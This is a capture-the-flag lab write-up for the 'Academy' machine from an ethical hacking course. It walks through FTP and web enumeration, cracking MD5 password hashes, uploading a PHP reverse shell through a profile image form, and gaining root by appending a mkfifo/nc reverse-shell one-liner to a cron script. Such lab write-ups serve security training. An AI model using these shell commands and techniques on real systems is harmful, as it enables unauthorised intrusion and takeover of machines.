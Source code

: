 # Academy (TCM)

- Machine from TCM Ethical Hacking Course
- March 12, 2023
- easy 

---

## Enumeration

### Nmap

1. 21/ftp vsftpd 3.0.3
   1. Anonymous login allowed
   2. note.txt -> read access
2. 22/ssh OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
3. 80/http Apache httpd 2.4.38 ((Debian))
   1. Apache default page

### FTP 

- anonymous login and get note.txt

```
Hello Heath !
Grimmie has setup the test website for the new academy.
I told him not to use the same password everywhere, he will change it ASAP.


I couldn't create a user via the admin panel, so instead I inserted directly into the database with the following command:

INSERT INTO `students` (`StudentRegno`, `studentPhoto`, `password`, `studentName`, `pincode`, `session`, `department`, `semester`, `cgpa`, `creationdate`, `updationDate`) VALUES
('10201321', '', 'cd73502828457d15655bbd7a63fb0bc8', 'Rum Ham', '777777', '', '', '', '7.60', '2021-05-29 14:36:56', '');

The StudentRegno number is what you use for login.


Le me know what you think of this open-source project, it's from 2020 so it should be secure... right ?
We can always adapt it to our needs.

-jdelta

```

### HTTP

- it is default Apache config page
- nothing interesting from view page source
- directory brute forcing with ffuf - `phpmyadmin` found
- from note.txt file, I guess `academy` and there is a page and try to enter with above credential
- before entering, the password may be md5 hash
- I used https://crackstation.net  to crack password
- then, enter with registration number

![](screenshots/2023-03-12-20-27-01.png)

- directory brute forcing with ffuf to academy directory

```
admin
assets
db
includes
```

![](screenshots/2023-03-12-20-35-34.png)

- get .sql file and it is ASCII text
- interesting lines

```
INSERT INTO `admin` (`id`, `username`, `password`, `creationDate`, `updationDate`) VALUES
(1, 'admin', '21232f297a57a5a743894a0e4a801fc3', '2020-01-24 16:21:18', '03-06-2020 07:09:07 PM');
```
- crack again
- get password
- found phpadmin page and login -> not success

## User Access 

- Found an upload area at profile

![](screenshots/2023-03-12-20-44-54.png)

- listen with nc
- upload php-reverse-shell and reload the image 
- get `www-data` user shell

![](screenshots/2023-03-12-20-45-53.png)


## Root Access

- in `/var/www/html/academy/admin/includes/config.php` found one password.
- there is only one user and root 
- try to enter with one of them
- it is grimmie's password
- in `/etc/crontab` -> 

```
* * * * * /home/grimmie/backup.sh
```
- `backup.sh` file is run by root every minute
- add this line to get `suid` bash in tmp folder

```sh
grimmie@academy:~$ echo "
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.2.4 4242 >/tmp/f" >> backup.sh
```
- listen with nc at local machine and wait for a minute and get root access

```sh
# whoami
root
# ls
flag.txt
# cat flag.txt
Congratz you rooted this box !
Looks like this CMS isn't so secure...
I hope you enjoyed it.
If you had any issue please let us know in the course discord.

Happy hacking !
```

---